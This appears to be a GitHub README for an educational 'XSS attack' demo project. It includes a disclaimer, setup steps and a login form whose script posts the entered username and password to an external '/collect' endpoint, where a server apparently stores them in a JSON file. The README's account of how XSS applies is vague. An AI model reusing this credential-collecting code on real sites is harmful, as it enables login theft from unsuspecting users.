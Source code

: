 # XSS Attack Project

## Disclaimer
This project is intended for educational purposes only. Cross-Site Scripting (XSS) is a security vulnerability that should only be tested responsibly and with proper authorization. Unauthorized testing of XSS vulnerabilities is illegal and unethical.

## Project Description
This project demonstrates a Cross-Site Scripting (XSS) attack using a simple login form. The server collects login data and saves it to a JSON file.

## Table of Contents

1. [Installation](#installation)
2. [How to run the code](#how-to-run-the-code)
3. [Client Side Code](#client-side-code)
4. [XSS Demo Video](#xss-demo-video)
5. [Contribution Guidelines](#contribution-guidelines)
6. [License Information](#license-information)
7. [Additional Resources](#additional-resources)

## Installation

* Ensure you have Node.js installed on your machine. You can download it from [Node.js](https://nodejs.org/).
* Ensure you have Git installed on your machine. You can download it from [Git](https://git-scm.com/).
* Clone the repository to your local machine.
* Navigate to the project directory.
* Install the dependencies by running the following command:
  ```bash
  npm install
  ```

## How to run the code

* It is recommended to run this project in a local or isolated environment due to potentially sensitive login data. But you can run on GitHub Codespace as well.
* Start the server by running the following command:
  ```bash
  node server.js
  ```

## Client Side Code

```html
<form id="loginForm">
<label for="username">Username:</label>
<input type="text" id="username" name="username" required><br><br>
 
<label for="password">Password:</label>
<input type="password" id="password" name="password" required><br><br>
 
<button type="button" id="loginButton">Login</button>
</form>
 
<script>
const apiUrl = 'https://unearthly-hex-679pp459qqgh574r-8001.app.github.dev/collect';

        function sendLoginToAPI(event) {
            event.preventDefault();

            alert("Login button clicked!");

            const username = $('#username').val();
            const password = $('#password').val();

            if (!username || !password) {
                alert("Both username and password are required.");
                return;
            }

            $.ajax({
                url: apiUrl,
                method: 'POST',
                contentType: 'application/json',
                data: JSON.stringify({ username: username, password: password }),
                success: function(data) {
                    console.log('Login response:', data);
                    alert('Login successful!');
                },
                error: function(xhr, status, error) {
                    console.error('Login failed:', error);
                    alert('Invalid username or password.');
                }
            });
        }

        $('#loginButton').on('mousedown', sendLoginToAPI);
</script>
```

Change your workspace name to your own workspace name in the apiUrl variable.

### Explanation
The client-side code handles the user input from the login form. When the login button is clicked, the `sendLoginToAPI` function is triggered. This function collects the username and password entered by the user and sends them to the server using an AJAX POST request. The server then processes this data and saves it to a JSON file. The XSS vulnerability could be exploited if an attacker injects malicious scripts into the username or password fields, which would then be executed when the data is processed or displayed.

## XSS Demo Video
<details><summary>View Demo Video</summary>


https://github.com/user-attachments/assets/289917ae-d0b3-43f3-8b9d-1af6f298c824

</details>


## Contribution Guidelines

1. Fork the repository.
2. Create a new branch for your feature or bugfix.
3. Commit your changes with a descriptive message.
4. Push your changes to your forked repository.
5. Create a pull request to the main repository.

## License Information

This project is licensed under the ISC License.

## Additional Resources

* [OWASP XSS Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Prevention_Cheat_Sheet.html)
* [OWASP Cross-Site Scripting (XSS)](https://owasp.org/www-community/attacks/xss/)
* [MDN Web Docs: Cross-Site Scripting (XSS)](https://developer.mozilla.org/en-US/docs/Glossary/Cross-site_scripting)
